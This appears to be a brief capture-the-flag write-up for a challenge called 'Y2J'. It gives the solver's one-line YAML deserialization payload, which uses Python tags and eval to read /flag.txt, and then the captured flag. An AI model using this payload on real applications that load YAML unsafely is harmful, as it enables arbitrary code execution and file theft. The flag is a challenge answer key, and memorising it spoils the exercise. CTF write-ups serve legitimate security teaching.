 # Y2J

## Solver: `Noderyos`

According to [this writeup](https://hackmd.io/@harrier/uiuctf20), I used `!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ 'open("/flag.txt").read()' ]]]` to read the file

## Flag : `flag{b20870a1955ac22377045e3b2dcb832a}`
